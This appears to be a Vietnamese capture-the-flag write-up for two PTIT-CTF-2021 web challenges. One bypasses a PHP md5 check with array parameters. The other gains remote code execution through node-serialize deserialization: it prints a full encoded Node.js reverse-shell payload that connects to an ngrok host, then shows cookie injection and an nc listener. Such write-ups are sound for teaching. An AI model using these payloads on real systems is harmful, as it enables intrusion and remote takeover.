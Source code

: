 [PTIT-CTF-2021] WEB - Recon

Description: Can you recon where flag is hidding in this website ???? URL: http://34.84.29.1:2412/

Bạn có thể trinh sát flag ẩn trong trang web này không? 

Dạo vòng quanh web thì thấy có endpoint  `/demo` có thể truy cập, view source tại phần comment các bạn có thể thấy vài bình luận nhưng có bình luận khá đặc biệt

```
<!-- /demo/somesecretimages/image-00.png,  00 or 01 ???-->
```

Các hình ảnh đều theo format qrcode. Thử truy cập vào ảnh, ở image-00.png và image-01.png  parsed các đoạn text phần nào gợi ý rằng flag sẽ nằm ở đâu đấy sau khi decode bức ảnh nào đấy   :vv

![1.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/1.png)

![2.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/2.png)

Số 14 trong phần ` /demo`, truy cập vào cũng ra 1 ảnh dạng qrcode. Ok lại decode thôi, ở đây text sẽ là  `the real challenge: /ch4ll3ng3/` và đây là endpoit để ra được flag.

Dưới đây là code sau khi truy cập vào `/ch4ll3ng3/`:

``` php
<?php 
include('flag.php');
highlight_file(__FILE__); 
error_reporting(0); 
$apple = $_GET['apple']; 
$banana = $_GET['banana']; 
if(isset($_GET['apple']) && isset($_GET['banana'])){ 
    if($apple !== $banana){ 
        if(hash('md5', $salt . $apple) == hash('md5', $salt . $banana)){ 
            echo $flag; 
        } 
    }
} 
?>
```

Đoạn trên có ý nghĩa so sách giá trị của hai  args, nếu khác nhau thì sẽ hiển thị $flag

Bên dưới thì đây là payload của mình, truy cập và nhận cờ.

`http://34.84.29.1:2412/ch4ll3ng3/?apple[12]=123&banana[2]=122`

Flag:  PTIT{fake_flag}



======================================================================



[PTIT-CTF-2021] WEB - Rick Roll

Hôm nay khá bận nên mình cố gắng viết ngắn gọn nhất có thể, phần nào chưa rõ các bạn tìm hiểu thêm nhé. 

tl;dr

Thử thách tồn tại lỗ hổng deserialize trong nodejs, cho phép dữ liệu không đáng tin cậy được chuyển vào hàm unserialize() dẫn đến RCE bằng cách chuyển đổi serialized Javascript Object

với IEFE

**Bug**

Lỗ hổng trong thử thách là giá trị cookie trong yêu cầu HTTP.  Bây giờ có thể khai thác hàm unserialize() trong module node-serialize nếu dữ liệu không đáng tin cậy được truyền vào. Khai thác lỗ hổng để tạo một Reverse Shell.

![3.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/3.png)

--> base64 decode:

![4.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/4.png)



**Exploit**

Tạo một đường hầm ngrok TCP để nat ip với port ra ngoài

```
#./ngrok tcp 8083
```

output:

![5.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/5.png)

Ở đây mình dùng [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) để tạo reverse shell.

Set argument là host và port của ngrok như thế này để gen payload.

```
$python3 nodejsshell.py 4.tcp.ngrok.io:12497 8083
[+] LHOST = 4.tcp.ngrok.io:12497
[+] LPORT = 8083
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,52,46,116,99,112,46,110,103,114,111,107,46,105,111,58,49,50,52,57,55,34,59,10,80,79,82,84,61,34,56,48,56,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))

```

Bây giờ gen một payload serialized với javascript sau:

```javascript
var y = {
rce : function() {}
}
var serialize = require(‘node-serialize’);
console.log(“Serialized: \n” + serialize.serialize(y)); 
```

![6.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/6.png)

Chèn payload trong dấu ngoặc nhọn **{** *eval (String.from ………* **}** như hình dưới đây: 

![7.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/7.png)

Lưu tệp dưới dạng **mining.js** và chạy bằng lệnh node tạo ra payload serialized  được hiển thị bên dưới: 

![8.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/8.png)

Bây giờ quay lại BurpSuite và điều hướng đến tab decoder và paste mã  đầu ra ở trên vào text để và encode base64, các bạn hãy thêm [dấu ngoặc IIFE ](http://benalman.com/news/2010/11/immediately-invoked-function-expression/)() sau nội dung hàm như hình dưới đây: 

![9.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/9.png)

Trong tab Repeater, bạn cần thay thế giá trị cookie bằng giá trị được mã hóa base64 mà chúng ta đã tạo từ bước trên và sau đó nhấp  *Send*.

![10.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/10.png)

Bên cạnh đó, các bạn có thể set lại công cụ netcat của bạn đang listen có trên cùng một port không, tức là 8083 (cùng một cổng cho payload reverse shell )

```
Lệnh: nc -nlvp 8083
```

Ngay sau khi nhấp vào Send, request sẽ được gửi đến máy chủ hiển thị 200 OK và kết nối thành công trên  port 8083 lúc này tiến hành reverse shell để lấy flag

![11.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/11.png)

Flag ở trong file Dockerfile, cat ra sẽ thấy liền :vv



========================================
